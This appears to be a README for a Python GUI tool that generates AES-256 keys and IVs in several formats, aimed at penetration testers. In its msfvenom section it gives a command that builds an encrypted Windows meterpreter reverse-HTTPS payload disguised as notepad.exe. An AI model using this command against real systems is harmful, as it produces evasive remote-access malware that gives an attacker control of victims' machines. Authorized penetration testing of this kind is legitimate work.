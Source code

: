 # AES-256 Key & IV Generator
A professional Python application for generating cryptographically secure AES-256 encryption keys and initialization vectors (IVs) with multiple output formats suitable for various applications including penetration testing tools like msfvenom.

[https://img.shields.io/badge/python-3.6%252B-blue]
[https://img.shields.io/badge/license-MIT-green]

## Features
Cryptographically Secure Generation: Uses os.urandom() for secure random number generation

## Multiple Output Formats:

Hexadecimal (ideal for msfvenom)

Base64 encoding

Escape sequences (for code implementation)

Raw bytes representation

## User-Friendly GUI: 

Intuitive interface built with Tkinter

Clipboard Integration: One-click copying of generated values

Cross-Platform Compatibility: Works on Windows, macOS, and Linux

## Installation
Clone or download this repository

Install required dependencies:

bash```
pip install -r requirements.txt```

## Usage

Run the application:

bash```
python aes_key_generator.py```

Generate new values:

Click "Generate New" to create a fresh AES-256 key and IV

Select output format:

Choose from Hex, Base64, Escape Sequences, or Raw Bytes

Copy values:

Use the "Copy Key", "Copy IV", or "Copy Both" buttons to transfer values to clipboard

## Requirements

The application requires the following dependencies (automatically installed via requirements.txt):

Python 3.6+

Tkinter (usually included with Python standard library)

## For msfvenom Usage

When using with msfvenom, select the **Hex format** and use the values with the appropriate flags:

bash```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=YOUR_IP LPORT=YOUR_PORT \
-e aes256 -K YOUR_KEY -i YOUR_IV --encoder x64/xor_dynamic --arch x64 --platform windows -f exe -o notepad.exe```

## Security Considerations

Always generate new keys and IVs for each encryption operation

Never reuse the same key/IV combination

Store keys securely using appropriate secret management solutions

This tool uses cryptographically secure random generation (os.urandom)

## Project Structure
text
aes-key-generator/
├── aes_key_generator.py  # Main application file
├── requirements.txt      # Python dependencies
└── README.md            # This file

## License

This project is licensed under the **MIT License** - see the LICENSE file for details.

## Disclaimer
This tool is intended for educational and legitimate security testing purposes only. Always ensure you have proper authorization before using encryption tools on any system.


